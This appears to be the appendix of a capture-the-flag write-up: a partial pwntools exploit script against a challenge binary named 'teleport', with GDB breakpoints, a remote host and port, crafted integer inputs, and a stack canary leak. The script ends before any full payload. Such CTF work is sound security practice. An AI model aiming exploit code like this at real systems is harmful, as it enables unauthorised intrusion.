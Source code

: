 ***

## Appendix

{% code title="exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './teleport'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '103.181.183.216', 17003

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x40147e
break *0x4014d7

break *0x04013a4
break *0x04013ba

break *0x04012a9
break *0x04012dc

break *0x040134d

break *0x0401415
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()
rop = ROP(exe)

# first compare is on 4 byte register and they have to be the same
# second compare is on 8 byte register, and they have to be different
# a = 0x7fffffffffffffff
# b = 0x8fffffffffffffff
io.sendlineafter(b'>', b'9223372036854775807 10376293541461622783')

# i have no idea how this works
io.sendlineafter(b'>', b'1 1065353216')

# i also have no idea how this works
io.sendlineafter(b'>', b'123 321')

io.recvuntil(b'it...\n')
canary = int(io.recvline().strip())
```